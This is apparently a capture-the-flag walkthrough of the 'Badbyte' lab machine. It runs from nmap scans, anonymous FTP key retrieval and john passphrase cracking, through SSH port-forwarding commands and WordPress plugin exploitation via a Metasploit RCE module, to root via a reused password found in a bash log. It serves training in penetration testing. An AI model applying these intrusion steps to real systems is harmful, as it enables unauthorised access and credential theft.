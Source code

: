 ##Badbyte

#Enumeration
```
# Nmap 7.91 scan initiated Sat Mar 13 12:47:29 2021 as: nmap -sC -sV -oN nmap/initial -vvv -p 22,30024 10.10.134.177
Nmap scan report for 10.10.134.177
Host is up, received reset ttl 61 (0.15s latency).
Scanned at 2021-03-13 12:47:29 PST for 7s

PORT      STATE SERVICE REASON         VERSION
22/tcp    open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e3:89:a3:33:67:85:ac:08:a5:0f:1a:d4:79:78:d2:66 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDef3KhPXzvbcTI+hauosPoKNGQUYV4x0oOCV12uMl/asb0noPbvwbJ+63yuk2hh/uF+4CRbXfp3aY5CujLXgn26KLWVx8laL46+aeXvsUP8wyDMR+ExT4AVlWZTbSM6us8BBMQSNsV99ttdrCjQgSIsbP9I5JQfPjOGJ8AL68P6dhM5XjYmz3JrSwB22EHHULA9JB+Kf23GY7/iXSj99vFyYlzQx3of0avHZAfqzqBpUjuWu2UTzEE8oEBxMYilbLPQUkIfMtTbdafQHi1Lf/87cJikGFlFmSRUSOKfIeZd5AMli1+xMxND1Di/XM2CCDnKcUNjeeheQuFFfN6eisf
|   256 c1:93:e9:26:b8:9b:85:bc:c2:8e:08:a2:a4:85:f6:85 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJ48Mhbg/Dpagxz4sr7EMKCW/yuMRhT31Je3xAzUHzaIxWJkPrnZI8LmS1ay2m+XfabwpgEqqWCP6mYI7H/UG2Q=
|   256 dd:e1:5c:32:d1:fc:a3:c5:4a:0e:bf:c8:c2:79:e4:71 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIOn/9Bo+nJEIN+3IeO+XZBwU0oPqs9LvCPhCgP1vK6R
30024/tcp open  ftp     syn-ack ttl 61 vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp          1752 Dec 27 19:55 id_rsa
|_-rw-r--r--    1 ftp      ftp            78 Dec 28 16:50 note.txt
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.13.1.12
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
Service Info: OSs: Linux, Unix; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Mar 13 12:47:36 2021 -- 1 IP address (1 host up) scanned in 7.26 seconds
```

#FTP
FTP is running on port 30024 and we are able to login as anonymous. We login and get the two files on the server. We discover that this is id_rsa private key for the user errorcauser. THe key however needs a passphrawse so we use ssh2john to convert the key and then crack the result with john and the rockyou wordlist. With the passphrase we can get an inital foothold through the ssh as the errorcauser user

#errorcauser port forwarding

We find a note that there is a webserver hosted locally so lets set up port forwarding. We do the following, we have our /etc/proxychains.conf edited to use socks5	127.0.0.1 1337 instead of socks4

Reference https://netsec.ws/?p=278

We do the following first to establish dynamic port forwarding
ssh -i id_rsa -f -N -D 1337 errorcauser@10.10.134.177

We can then scan for what is running locally using the following command
proxychains nmap -sTV -n -PN 127.0.0.1

We find http and mysql running on ports 80,3306 so lets locally forward the remote port 80 through our forwarded port with the following
ssh -i id_rsa -L 8080:127.0.0.1:80 errorcauser@10.10.134.177

Now we can scan for Service info with the following 
```
# nmap -sC -sV -p 8080 127.0.0.1                        
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-13 14:48 PST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000055s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 4.9.5
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: BadByte &#8211; Just another WordPress site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.74 seconds
```

We then scan for wordpress vulnerabilities with the following
```
# nmap --script=http-wordpress-enum --script-args search-limit=1500 -p 8080 127.0.0.1
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-13 14:34 PST
Stats: 0:04:36 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 0.00% done
Stats: 0:04:37 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 0.00% done
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00016s latency).

PORT     STATE SERVICE
8080/tcp open  http-proxy
| http-wordpress-enum:
| Search limited to top 1500 themes/plugins
|   themes
|     twentyseventeen 1.5
|   plugins
|     akismet
|     duplicator 1.3.26
|_    wp-file-manager 6.0

Nmap done: 1 IP address (1 host up) scanned in 694.53 seconds
```
We then look for vulnerable plugins
```
# searchsploit duplicator 1.3.26
------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                       |  Path
------------------------------------------------------------------------------------- ---------------------------------
Wordpress Plugin Duplicator 1.3.26 - Unauthenticated Arbitrary File Read (Metasploit | php/webapps/49288.rb
------------------------------------------------------------------------------------- ---------------------------------
```

CVE-2020-11738 shown above has a metasploit module and takes advatange of directory traversal vulnerability


```
# searchsploit wp-filemanager
------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                       |  Path
------------------------------------------------------------------------------------- ---------------------------------
WordPress Plugin wp-FileManager - 'path' Arbitrary File Download                     | php/webapps/38515.txt
WordPress Plugin wp-FileManager - Arbitrary File Download                            | php/webapps/25440.txt
WordPress Plugin Wp-FileManager 1.2 - Arbitrary File Upload                          | php/webapps/4844.txt
WordPress Plugin Wp-FileManager 6.8 - RCE                                            | php/webapps/49178.bash
------------------------------------------------------------------------------------- ---------------------------------
```
CVE-2020-25213 via WordPress Plugin Wp-FileManager 6.8 - RCE allows for RCE through this vulnerable plugin, and a metasploit module

```
msf6 > search CVE-2020-25213

Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  exploit/multi/http/wp_file_manager_rce  2020-09-09       normal  Yes    WordPress File Manager Unauthenticated Remote Code Execution
```
We use the above to get a meterpreter session/shell on the machine as the cth user

#cth privilege escalation
We can find the user flag in /home/cth
we upload linpeas and search for some vulnerabilities

/cdrom
/usr/bin/gettext.sh
```
[+] Readable files belonging to root and readable by me but not world readable
-rw-r----- 1 root adm 2675200 Mar 13 23:27 /var/log/apache2/access.log
-rw-r----- 1 root adm 0 Dec 11 16:51 /var/log/apache2/other_vhosts_access.log
-rw-r----- 1 root adm 58396 Mar 13 22:46 /var/log/apache2/error.log
-rw-r----- 1 root adm 106136 Feb  2 20:05 /var/log/apt/term.log
-rw-r----- 1 root adm 132813 Jan 28 11:36 /var/log/apport.log

[+] Searching passwords in config PHP files
define('DB_PASSWORD', '@n0therp@ssw0rd');
define('DB_PASSWORD', '@n0therp@ssw0rd');
                        case 'DB_PASSWORD' :
        define('DB_PASSWORD', $pwd);
define('DB_PASSWORD', 'password_here');
```
We can't seem to find any leads or it was passed over, but eventually we checkout the .viminfo file in /home/cth and see the following
```
# History of marks within files (newest to oldest):

> /var/log/bash.log
        *       1610977988      0
        "       31      0
        .       31      0
        +       37      0
        +       31      0
        +       37      0
        +       31      0
```
Looking through this bash.log file we are able to see some sudo attempts and a mistyped plaintext password. This password doesnt quite work, but is an example of password reuse and we can modify it slightly to get the new password and then simply get root access with sudo su -

